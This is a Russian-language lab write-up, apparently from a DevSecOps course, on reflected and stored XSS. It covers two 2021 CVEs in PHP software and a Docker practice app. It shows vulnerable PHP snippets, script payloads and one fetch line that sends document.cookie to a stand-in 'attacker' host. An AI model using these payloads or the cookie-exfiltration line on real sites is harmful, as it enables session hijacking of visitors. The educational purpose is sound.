

Часть I
На NVD и stack.watch нашел статистику CVE за 2021 год и XSS в PHP-компонентах
По данным stack.watch за 2021 год опубликовано 21 115 CVE. Это рекорд на тот момент, на ~16% больше чем в 2020 (18 150). Вывод простой: даже XSS встречается в этом списке десятками раз - разработчики продолжают наступать на одни и те же грабли
Первая CVE - CVE-2021-43698 в библиотеке phpWhois. Это PHP-библиотека для WHOIS-запросов: дергает WHOIS-серверы по доменам, IP, AS, парсит сырой ответ в структурированный массив (даты регистрации, контакты, NS, статус домена), кеширует результаты. Используется в админках хостеров, сервисах проверки доменов и мониторинге истечения регистрации.
Сама уязвимость живет в example.php - демонстрационный файл, который многие копируют в продакшн как есть. Параметр $_GET['query'] улетает в exit() без htmlspecialchars
exit("Error processing query: " . $_GET['query']);
Payload:
http://victim/phpwhois/example.php?query=<script>alert(document.cookie)</script>
Тип - Reflected XSS.
Вторая CVE - CVE-2021-47912 в PHP Melody 3.0. Это коммерческая Video CMS, через неё делают фейк YouTube: загрузка видео и импорт с YouTube/Vimeo/Dailymotion, регистрация юзеров, каналы, подписки, категории, теги, плейлисты, поиск, админка с модерацией и статистикой, монетизация
CVE-2021-47912 - несколько reflected XSS в categories.php, import.php, user_import.php. GET-параметры вставляются в HTML без санитизации
$category = $_GET['category'];
echo "<h1>Category: " . $category . "</h1>";
Из 21 115 CVE за 2021 год значительная доля - именно XSS в PHP-компонентах. Причина одна и та же: прямой вывод $_GET/$_POST в HTML без htmlspecialchars(), копирование уязвимого кода из example.php в продакшн, отсутствие auto-escape в шаблонах
Часть II
Для начала поднял контейнер командами из задания:
docker pull ket9/otus-devsecops-xss
docker run -d -p 8081:80 ket9/otus-devsecops-xss:latest
Зашел на http://localhost:8081/. На главной два пункта: XSS-1 и index.php. Открыл XSS-1 - там форма с одним textarea (name=comment) и кнопкой Save Data, POST на index.php. Под формой блок «Comments» - то место, куда падают отправленные комментарии
Сначала отправил обычный test123, чтобы понять что происходит
POST /XSS-1/index.php
comment=test123&submit=Save Data
В ответе:
<h2>Comments</h2><p>test123
Отправил еще одно сообщение - старый test123 остался на месте, новое добавилось ниже через
<script>alert("XSS")</script>
В исходнике страницы видно что вставка идет на сервере PHP echo-ом без htmlspecialchars
<h2>Comments</h2><p>test123
</p><hr />
<p>
<script>alert("XSS")</script>
</p><hr />
Открыл http://localhost:8081/XSS-1/ в браузере - выскочил alert("XSS"). JS выполнился в контексте страницы, уязвимость подтверждена

Чтобы показать что это не безобидно, дернул куки:
<script>alert(document.cookie)</script>
В реальной атаке alert заменяется на fetch('https://attacker/?c='+document.cookie) сессия любого, кто откроет страницу с комментариями, утечет атакующему.
Итог Лаба показала классический пример Stored XSS: сервер берет $_POST['comment'] и через echo выкидывает его в HTML без экранирования. Любой посетитель страницы получает чужой JS в свой браузер - угон сессии, действия от имени жертвы, редирект на фишинг